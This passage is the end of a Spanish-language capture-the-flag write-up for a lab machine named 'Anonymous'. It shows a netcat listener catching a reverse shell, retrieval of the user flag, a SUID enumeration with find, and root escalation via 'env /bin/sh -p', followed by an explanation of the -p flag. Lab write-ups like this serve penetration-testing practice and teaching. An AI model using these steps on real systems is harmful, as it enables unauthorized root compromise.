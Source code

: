     ┌──(root㉿kali)-[/home/…/Desktop/ctf/anonymous/script]
    └─# nc -lnvp 1988
    listening on [any] 1988 ...
    connect to [10.9.92.151] from (UNKNOWN) [10.10.40.39] 45988
    bash: cannot set terminal process group (1726): Inappropriate ioctl for device
    bash: no job control in this shell
    namelessone@anonymous:~$ whoami;id
    whoami;id
    namelessone
    uid=1000(namelessone) gid=1000(namelessone) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)

## Post Explotacion Escalada de privilegios.

-Obtencion de la flag user.txt

    namelessone@anonymous:~$ cat user.txt 
        90d6f99258581-------1e68748c414740

-Listamos los ficheros del sistema que tengan el SUID activo para ver si podemos explotar alguno y llevar a root.

    namelessone@anonymous:~$ find / -perm -4000 2>/dev/null
    /snap/core/8268/bin/mount
    /snap/core/8268/bin/ping
    /snap/core/8268/bin/ping6
    [...]
    /usr/bin/env ---> Encontramos el comando env del cual podemos abusar para elevar privilegios
    [...]

INFO:Explicacion para explotar env ---> https://gtfobins.github.io/gtfobins/env/

-Explotamos env

    namelessone@anonymous:~$ env /bin/sh -p
    # whoami
    root
    # cd /root
    # ls
    root.txt
    # cat root.txt
    4d930091c31-------7ed10f27999af363

La opcion "-p" es muy importante

Si el shell se inicia con la identificación de usuario (grupo) efectiva que no es igual a la identificación de usuario (grupo) real, y no se proporciona la opción -p, las funciones de shell no se heredan del entorno, SHELLOPTS , BASHOPTS, CDPATH y GLOBIGNORE, si aparecen en el entorno, se ignoran y el ID de usuario efectivo se establece en el ID de usuario real. Si se proporciona la opción -p en la invocación, el comportamiento de inicio es el mismo, pero la identificación de usuario efectiva no se restablece.

El ID efectivo puede cambiar durante la ejecución de un programa, mientras que el ID real representa el usuario que inició el proceso y no cambia durante la ejecución.

---
---
---> Maquina Anonymous completa. <---
---
---
